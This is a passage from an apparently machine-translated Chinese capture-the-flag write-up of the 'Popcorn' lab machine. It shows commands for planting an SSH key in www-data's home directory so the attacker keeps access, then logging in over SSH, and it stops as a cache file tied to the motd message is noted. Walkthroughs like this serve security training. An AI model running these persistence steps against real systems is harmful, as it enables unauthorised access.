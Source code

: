 
我可以在目录中执行此操作。我只需要一种登录方式。我将在 www-data 的主目录中创建一个目录，并生成一个 RSA 密钥对：`www-data``.ssh`

    www-data@popcorn:/home/george$ cd ~
    www-data@popcorn:/var/www$ mkdir .ssh
    www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'pam'
    Enter file in which to save the key (/var/www/.ssh/id_rsa): 
    www-data@popcorn:/var/www$ ls .ssh/
    id_rsa  id_rsa.pub
    

我将公钥复制到并设置权限：`authorized_keys`

    www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
    www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 
    

现在没有在 ：`.cache``/var/www`

    www-data@popcorn:/var/www$ ls -la                                                    
    total 28                                                                             
    drwxr-xr-x  4 www-data www-data 4096 Jun 21 21:39 .               
    drwxr-xr-x 15 root     root     4096 Mar 17  2017 ..                                 
    -rw-------  1 www-data www-data   44 Jun 21 21:39 .bash_history                      
    -rw-r--r--  1 www-data www-data  177 Mar 17  2017 index.html    
    drwxr-xr-x  2 www-data www-data 4096 Mar 17  2017 rename  
    -rw-r--r--  1 www-data www-data   21 Mar 17  2017 test.php 
    drwxr-xr-x 15 www-data www-data 4096 Mar 17  2017 torrent 
    

如果我获取私钥的副本，将其带回主机，然后作为w数据SSH到爆米花，我不仅会得到一个shell：

    root@kali# ssh -i /tmp/key www-data@10.10.10.6
    Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686
    
    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    
      System information as of Sun Jun 21 21:49:51 EEST 2020
    
      System load: 0.0               Memory usage: 5%   Processes:       111
      Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 0
    
      Graph this data and manage this system at https://landscape.canonical.com/
    
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    $
    

但是该目录显示有一个：`.cache``motd.legal-displayed`

    www-data@popcorn:~$ find .cache/ -type f -ls
      4082    0 -rw-r--r--   1 www-data www-data        0 Jun 21 21:49 .cache/motd.legal-displayed
    